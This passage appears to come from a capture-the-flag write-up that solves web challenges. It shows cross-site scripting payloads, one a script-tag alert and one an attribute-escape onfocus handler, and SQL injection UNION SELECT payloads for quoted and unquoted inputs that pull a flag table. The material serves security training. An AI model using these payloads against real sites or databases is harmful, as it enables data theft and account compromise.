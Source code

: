 We can add a `<script>` tag within the `<h1>` tag :

```html
<script>alert(FLAG)</script>
```

- In div class attribute, with '<>' html encoded

```html
<html><body>
  <script>var FLAG = "FLAG"</script>
  <div class="PAYLOAD">
    Hello world
  </div>
</body></html>
```

Here, we just have to escape the 'class' attribute and write new attribute that execute the alert() within the div :

```html
" autofocus onfocus="alert(FLAG)" contenteditable="True
```

### SQLi

There is 2 SQLi snippets. The flag had to be in the SQL response to validate these parts.

- In single Quoted string

```sqlite
CREATE TABLE users (username TEXT, password TEXT, age INTEGER);
CREATE TABLE flag (flag TEXT);
INSERT INTO users (username, password, age) VALUES ('admin', 'admin', 42);
INSERT INTO flag (flag) VALUES ('FLAG');
SELECT username FROM users WHERE username LIKE 'PAYLOAD';
```

A simple quote escape and UNION SELECT will flag it : 

```sqlite
' UNION SELECT flag from flag; --
```

- Not quoted

```sqlite
CREATE TABLE users (username TEXT, password TEXT, age INTEGER);
CREATE TABLE flag (flag TEXT);
INSERT INTO users (username, password, age) VALUES ('admin', 'admin', 42);
INSERT INTO flag (flag) VALUES ('FLAG');
SELECT username FROM users WHERE username LIKE PAYLOAD;
```

Just don't forget to have a valid value before the `UNION SELECT` unless the first select will crash 

```sqlite
1 UNION SELECT flag from flag;
```
